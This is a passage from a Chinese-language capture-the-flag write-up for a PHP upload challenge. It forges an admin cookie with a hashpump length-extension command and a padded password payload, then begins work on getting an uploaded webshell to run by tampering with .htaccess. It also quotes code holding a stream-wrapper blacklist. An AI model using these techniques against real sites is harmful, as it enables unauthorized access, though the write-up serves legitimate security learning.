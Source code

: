 

这里的关键代码：

```php
        $secret = "********";
        if ($this->username === "admin" && $this->password != "admin"){
            if ($_COOKIE['user'] === md5($secret.$this->username.$this->password)){
                return 1;
            }
        }
```

上传文件时得是admin才能上传文件，验证的方式是通过`$_COOKIE['user']`和`md5($secret.$this->username.$this->password)`进行验证，这两个东西，我们可以通过hash拓展进行伪造

```
hashpump -s "52107b08c0f3342d2153ae1d68e6262c" -d adminadmin -k 8 -a admin123
$_COOKIE['user']:da87617c23790ab325af3e593dbc093c
username:admin
password:admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00admin123

admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00admin123
```

然后登录，上传文件时得记得带上$_COOKIE['user']，这样就能上传文件了。



#### 第二部分

当我们在访问upload.php时将会生成一个.htaccess文件。由于这个文件里面的内容被服务器写死了，所以我们上传的马无法被正常地解析，所以我们要做的就是给.htaccess做手脚。

```php
//view.php
<?php
error_reporting(0);
include ("config.php");
$file_name = $_GET['filename'];
$file_path = $_GET['filepath'];
$file_name=urldecode($file_name);
$file_path=urldecode($file_path);
$file = new File($file_name, $file_path);
$res = $file->view_detail();
$mine = $res['mine'];
$store_path = $res['store_path'];
```

跟进view_detail()

```php
    public function view_detail(){
        if      (preg_match('/^(phar|compress|compose.zlib|zip|rar|file|ftp|zlib|data|glob|ssh|expect)/i', $this->filepath))
        {
            die("nonono~");
        }
        $mine = mime_content_type($this->filepath);
        $store_path = $this->open($this->filename, $this->filepath);
        $res['mine'] = $mine;
        $res['store_path'] = $store_path;
        return $res;
    }
```
